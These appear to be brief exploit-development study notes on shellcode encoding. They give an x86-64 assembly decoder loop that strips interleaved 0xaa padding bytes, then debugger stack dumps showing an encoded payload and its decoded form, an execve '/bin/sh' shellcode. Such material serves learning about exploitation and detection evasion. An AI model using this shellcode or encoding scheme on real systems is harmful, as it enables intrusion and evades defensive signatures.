

# en(coding|crypting) concepts:
0xaa59aa41aa1aaaeb
        shiftpush:
            mov al, byte [rsp + rcx]
            mov [rsp + rbx], al
            add rbx, 1
            add rcx, 2
            cmp rcx, 112
            jle shiftpush

0xaa59aa41aa1a1aeb

0xaa59aa41aa411aeb
0000| 0x7fffffffe238 --> 0xaa59aa41aa1aaaeb
0008| 0x7fffffffe240 --> 0xaa41aa11aa8baa4d
0016| 0x7fffffffe248 --> 0xaa24aa44aa88aa52
0024| 0x7fffffffe250 --> 0xaae7aa89aa48aa07
0032| 0x7fffffffe258 --> 0xaa3baac0aa83aa48
0040| 0x7fffffffe260 --> 0xaa48aaf6aa31aa48
0048| 0x7fffffffe268 --> 0xaa05aa0faad2aa31
0056| 0x7fffffffe270 --> 0xaaffaaffaae1aae8
0000| 0x7fffffffe238 --> 0x41118b4d59411aeb
0008| 0x7fffffffe240 --> 0xe789480724448852
0016| 0x7fffffffe248 --> 0x48f631483bc08348
0024| 0x7fffffffe250 --> 0xffffe1e8050fd231
0032| 0x7fffffffe258 --> 0x68732f6e69622fff
0040| 0x7fffffffe260 --> 0xbb0000000041
0048| 0x7fffffffe268 --> 0x0